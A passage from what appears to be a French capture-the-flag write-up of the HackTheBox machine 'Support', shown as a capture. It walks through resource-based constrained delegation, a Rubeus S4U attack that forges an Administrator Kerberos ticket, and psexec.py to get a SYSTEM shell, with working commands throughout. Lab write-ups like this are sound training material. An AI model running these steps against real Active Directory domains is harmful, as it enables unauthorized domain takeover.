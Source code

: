 ### Configurer la délégation

```powershell
Set-ADComputer -Identity DC -PrincipalsAllowedToDelegateToAccount FAKE-COMP01$
```

### S4U Attack avec Rubeus

Hash RC4 :

```powershell
upload Rubeus.exe
.\Rubeus.exe hash /password:Password123 /user:FAKE-COMP01$ /domain:support.htb
```

Exécution :

```powershell
.\Rubeus.exe s4u /user:FAKE-COMP01$ /rc4:58A478135A93AC3BF058A5EA0E8FDB71 /impersonateuser:Administrator /msdsspn:cifs/dc.support.htb /domain:support.htb /ptt
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-lg">
        <i class="fas fa-ticket-alt mr-2 text-green-500"></i>
        Ticket Kerberos pour Administrator généré et injecté \!
    </p>
</div>


## 👑 Phase 10 — Shell SYSTEM

Conversion et utilisation du ticket :

```bash
base64 -d ticket.kirbi.b64 > ticket.kirbi
ticketConverter.py ticket.kirbi ticket.ccache
KRB5CCNAME=ticket.ccache psexec.py support.htb/administrator@dc.support.htb -k -no-pass
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold text-xl">
        <i class="fas fa-crown mr-2 text-amber-500"></i>
        NT AUTHORITY\SYSTEM obtenu \!
    </p>
</div>

Flag root :

```
C:\Users\Administrator\Desktop\root.txt
```

<div class="bg-gradient-to-r from-amber-500/10 to-yellow-500/10 p-6 rounded-xl border-l-4 border-amber-500 my-4">
    <div class="flex items-center gap-4">
        <div class="text-5xl text-amber-500">
            <i class="fas fa-trophy"></i>
        </div>
        <div class="flex-1">
            <h4 class="text-2xl font-bold text-amber-600 dark:text-amber-400 mb-2">Machine Pwned\!</h4>
            <p class="text-gray-700 dark:text-gray-300">
                <i class="fas fa-flag text-green-500 mr-2"></i><strong>User flag :</strong> C:\Users\Support\Desktop\user.txt<br>
                <i class="fas fa-flag text-red-500 mr-2"></i><strong>Root flag :</strong> C:\Users\Administrator\Desktop\root.txt
            </p>
        </div>
    </div>
</div>